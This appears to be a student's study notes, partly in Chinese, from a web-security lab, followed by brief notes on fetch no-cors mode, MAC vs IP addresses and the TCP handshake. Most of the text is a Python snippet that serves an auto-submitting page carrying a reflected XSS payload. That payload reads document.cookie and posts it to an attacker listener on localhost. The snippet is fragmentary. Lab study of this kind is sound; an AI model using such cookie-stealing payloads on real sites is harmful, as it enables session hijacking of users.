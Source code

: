 ```py
    import requests
    from urllib.parse import quote

    payload = """<form id='f' action='http://localhost:1338' method='POST'>
    <input type='hidden' name='cookie' id='c'>
    </form><script>document.getElementById('c').value=document.cookie;document.getElementById('f').submit()</script>"""
    encoded_payload = payload
    # encoded_payload = quote(payload)
    # encoded_payload="hellO!"
    url = f"http://challenge.localhost/ephemeral?msg={encoded_payload}"

    return f"""
    <!DOCTYPE html>
    <html>
    <body>
        <h1>Welcome to my site!</h1>
        <form method="GET" action="{url}">
            <input type="hidden" name="msg" value="{encoded_payload}">
        </form>
        <script>
            setTimeout(() => document.forms[0].submit(), 500);
        </script>
    </body>
    </html>
"""

if __name__ == '__main__':
    app.run(host='hacker.localhost', port=1337, debug=True)

```
要点：
注意get 只会提交内部已有字段，与 url无关
另外：
不要quote，否则XSS 内嵌失败
# fetch 中 mode 的作用
no-cors:

https://www.google.com/search?q=fetch+mode%3Ano-cors&oq=fetch+mode%3Ano-cors&gs_lcrp=EgZjaHJvbWUyBggAEEUYOdIBCDMzMzNqMGo0qAIAsAIB&sourceid=chrome&ie=UTF-8
限制预检，为了安全限制正文的出现，以及限制方法在一个范围。
a nice example:
https://stackoverflow.com/questions/43262121/trying-to-use-fetch-and-pass-in-mode-no-cors

# intercept communication:
网络地址中  mac vs ip：
mac设备独有，ip随地区变暖。
且 mac地址 只用于局域网设备鉴别。ip-> for complex rout
ethernet<- IP -< tcp
SYNC ->
<- SYNC and  ACK YOUR SYN
ACK ->
